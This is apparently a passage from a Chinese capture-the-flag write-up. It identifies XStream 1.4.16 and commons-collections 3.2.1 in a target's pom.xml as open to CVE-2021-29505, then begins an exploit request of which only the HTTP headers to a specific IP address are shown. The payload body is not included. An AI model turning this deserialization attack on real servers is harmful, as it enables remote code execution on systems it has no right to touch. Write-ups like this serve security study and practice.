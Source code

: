 ```html
            <scope>test</scope>
        </dependency>

        <dependency>
            <groupId>com.thoughtworks.xstream</groupId>
            <artifactId>xstream</artifactId>
            <version>1.4.16</version>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project>

```

有xstream和CC,Xstream为1.4.16，打CVE-2021-29505

```bash
        <dependency>
            <groupId>com.thoughtworks.xstream</groupId>
            <artifactId>xstream</artifactId>
            <version>1.4.16</version>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>
```

Exp

```bash
POST /just_sumbit_it HTTP/1.1
Host: 39.98.117.113:8080
Content-Length: 3117
Pragma: no-cache
Cache-Control: no-cache
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://39.98.117.113:8080
Referer: http://39.98.117.113:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

```
